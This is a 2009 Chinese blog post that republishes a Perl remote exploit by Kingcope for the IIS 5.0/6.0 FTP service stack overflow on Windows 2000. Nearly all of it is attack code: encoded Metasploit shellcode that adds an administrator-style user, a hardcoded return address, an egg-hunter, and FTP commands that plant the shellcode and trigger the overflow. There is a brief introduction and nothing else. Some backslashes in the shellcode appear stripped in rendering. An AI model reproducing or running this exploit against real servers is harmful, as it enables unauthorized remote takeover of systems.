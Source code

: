 ```yaml
---
title: Microsoft IIS 5.0/6.0 FTP 服务远程堆栈溢出漏洞利用工具Exploit (win2k)
description: 这2天exploit又起来了，先来个MicrosoftIIS5.0/6.0FTP服务远程堆栈溢出漏洞利用工具Exploit(win2k)吧MicrosoftIIS5.0/6.0FTP服务远程堆栈溢出漏洞利用工具Exploit(win2k)代码：……
date: 2009-09-02 09:53:04
category: 漏洞信息
tags: ['微软', 'IIS', 'exploit', '漏洞信息', '缓冲区溢出']
post_id: 961
alias: Microsoft-IIS-5.0-6.0-FTP-Server-Remote-Stack-Overflow-Exploit-win2k
ViewNums: 5285
---
```


这2天exploit又起来了，先来个[Microsoft IIS 5.0/6.0 FTP 服务远程堆栈溢出漏洞利用工具Exploit (win2k)](/blog/microsoft-iis-50-60-ftp-server-remote-stack-overflow-exploit-win2k) 吧

[Microsoft IIS 5.0/6.0 FTP 服务远程堆栈溢出漏洞利用工具Exploit (win2k)](/blog/microsoft-iis-50-60-ftp-server-remote-stack-overflow-exploit-win2k) 代码：

# [IIS 5.0 FTPd / Remote r00t exploit](/blog/microsoft-iis-50-60-ftp-server-remote-stack-overflow-exploit-win2k)
# Win2k SP4 targets
# bug found & exploited by Kingcope, kcope2<at>googlemail.com
# Affects IIS6 with stack cookie protection
# August 2009 - KEEP THIS 0DAY PRIV8

use IO::Socket;
$|=1;
#metasploit shellcode, adduser "winown:nwoniw"
$sc = "x89xe2xdaxdexd9x72xf4x5bx53x59x49x49x49x49" .
"x49x49x49x49x49x49x43x43x43x43x43x43x37x51" .
"x5ax6ax41x58x50x30x41x30x41x6bx41x41x51x32" .
"x41x42x32x42x42x30x42x42x41x42x58x50x38x41" .
"x42x75x4ax49x4bx4cx4ax48x50x44x43x30x43x30" .
"x43x30x4cx4bx47x35x47x4cx4cx4bx43x4cx45x55" .
"x42x58x45x51x4ax4fx4cx4bx50x4fx45x48x4cx4b" .
"x51x4fx51x30x43x31x4ax4bx47x39x4cx4bx47x44" .
"x4cx4bx43x31x4ax4ex50x31x49x50x4cx59x4ex4c" .
"x4cx44x49x50x44x34x43x37x49x51x49x5ax44x4d" .
"x43x31x49x52x4ax4bx4cx34x47x4bx51x44x46x44" .
"x43x34x43x45x4ax45x4cx4bx51x4fx51x34x43x31" .
"x4ax4bx43x56x4cx4bx44x4cx50x4bx4cx4bx51x4f" .
"x45x4cx45x51x4ax4bx4cx4bx45x4cx4cx4bx45x51" .
"x4ax4bx4bx39x51x4cx46x44x44x44x48x43x51x4f" .
"x46x51x4cx36x43x50x50x56x45x34x4cx4bx50x46" .
"x50x30x4cx4bx47x30x44x4cx4cx4bx42x50x45x4c" .
"x4ex4dx4cx4bx42x48x45x58x4dx59x4ax58x4cx43" .
"x49x50x43x5ax46x30x43x58x4cx30x4cx4ax44x44" .
"x51x4fx43x58x4ax38x4bx4ex4dx5ax44x4ex50x57" .
"x4bx4fx4ax47x42x43x42x4dx45x34x46x4ex42x45" .
"x44x38x43x55x47x50x46x4fx45x33x47x50x42x4e" .
"x42x45x43x44x51x30x44x35x44x33x45x35x44x32" .
"x51x30x43x47x43x59x42x4ex42x4fx43x47x42x4e" .
"x51x30x42x4ex44x37x42x4fx42x4ex45x39x43x47" .
"x47x50x46x4fx51x51x50x44x47x34x51x30x46x46" .
"x51x36x51x30x42x4ex42x45x44x34x51x30x42x4c" .
"x42x4fx43x53x45x31x42x4cx42x47x43x42x42x4f" .
"x43x45x42x50x47x50x47x31x42x44x42x4dx45x39" .
"x42x4ex42x49x42x53x43x44x43x42x45x31x44x34" .
"x42x4fx43x42x43x43x47x50x42x57x45x39x42x4e" .
"x42x4fx42x57x42x4ex47x50x46x4fx47x31x51x54" .
"x51x54x43x30x41x41";
#1ca
print "IIS 5.0 FTPd / Remote r00t exploit by kcope V1.2
";
if ($#ARGV ne 1) {
print "usage: iiz5.pl <target> <your local ip>
";
exit(0);
}
srand(time());
$port = int(rand(31337-1022)) + 1025;
$locip = $ARGV[1];
$locip =~ s/./,/gi;
if (fork()) {
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                              PeerPort => '21',
                              Proto    => 'tcp');
$patch = "x7ExF1xFAx7F";
#$retaddr = "ZZZZ";
$retaddr = "x9BxB1xF4x77"; # JMP ESP univ on 2 win2k platforms
$v = "KSEXY" . $sc . "V" x (500-length($sc)-5);
# top address of stack frame where shellcode resides, is hardcoded inside this block
$findsc="xB8x55x55x52x55x35x55x55x55x55x40x81x38x53"
   ."x45x58x59x75xF7x40x40x40x40xFFxFFxE0";
# attack buffer
$c = $findsc . "C" . ($patch x (76/4)) . $patch.$patch.
   ($patch x (52/4)) .$patch."EEEE$retaddr".$patch.
   "HHHHIIII".
$patch."JKKK"."xE9x63xFExFFxFFxFFxFF"."NNNN";
$x = <$sock>;
print $x;
print $sock "USER anonymous
";
$x = <$sock>;
print $x;
print $sock "PASS anonymous
";
$x = <$sock>;
print $x;
print $sock "MKD w00t$port
";
$x = <$sock>;
print $x;
print $sock "SITE $v
"; # We store shellcode in memory of process (stack)
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "CWD w00t$port
";
$x = <$sock>;
print $x;
print $sock "MKD CCC". "$c
";
$x = <$sock>;
print $x;
print $sock "PORT $locip," . int($port / 256) . "," . int($port % 256) . "
";
$x = <$sock>;
print $x;
# TRIGGER
print $sock "NLST $c*/../C*/
";
$x = <$sock>;
print $x;
while (1) {}
} else {
my $servsock = IO::Socket::INET->new(LocalAddr => "0.0.0.0", LocalPort => $port, Proto => 'tcp', Listen => 1);
die "Could not create socket: $!
" unless $servsock;
my $new_sock = $servsock->accept();
while(<$new_sock>) {
print $_;
}
close($servsock);
}
#Cheerio,
#
#Kingcope
# [milw0rm.com](http://www.milw0rm.com/exploits/9541) [2009-08-31]

